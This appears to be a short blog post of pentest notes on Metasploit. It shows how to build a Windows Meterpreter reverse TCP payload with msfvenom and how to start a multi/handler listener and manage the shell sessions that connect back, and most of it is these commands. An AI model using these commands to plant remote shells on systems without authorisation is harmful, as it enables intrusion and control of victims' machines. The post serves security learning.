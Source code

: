 ```yaml
---
layout: post
title: "Meterpreter"
date:   2020-05-23 10:00:00
---
```


# Set up reverse TCP shell

To set up the reverse shell: 
 * You need to create your program which will be executed on the target
 * You need to launch a listener, awaiting for the connection (from your program)

To generate your program
{% highlight bash %}
msfvenom -p windows/meterpreter/reverse_tcp lhost=[your IP] -f exe|msi|... -o name.exe|msi|...
{% endhighlight %}

You need to specify your IP and not the target IP since your program will try to connect with your machine.

To launch the listener
{% highlight bash %}
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost [your IP]
set lport [default 4444] | unset lport
run
{% endhighlight %}


Once the program is executed, you will see a session meterpreter.
You can have multiple sessions:
{% highlight bash %}
 sessions -i ID_meterpreter_session (on msfconsole, not meterpreter session)
 sessions -h
{% endhighlight %}

